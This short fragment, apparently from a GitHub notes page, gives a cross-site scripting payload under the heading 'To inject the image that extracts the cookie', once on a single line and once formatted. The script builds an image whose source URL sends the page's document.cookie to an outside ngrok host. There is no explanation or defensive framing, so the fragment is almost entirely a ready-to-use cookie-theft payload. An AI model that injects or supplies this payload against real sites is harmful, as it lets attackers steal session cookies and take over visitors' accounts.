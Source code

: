 ### To inject the image that extracts the cookie

<script>var img = new Image();img.src="https://d65c3bd8b730.ngrok.app/hamster.jpg?cookie="+encodeURIComponent(document.cookie);document.body.appendChild(img);</script>

<script>
    var img = new Image();
    img.src="https://d65c3bd8b730.ngrok.app/hamster.jpg?cookie="+encodeURIComponent(document.cookie);
    document.body.appendChild(img);
</script>
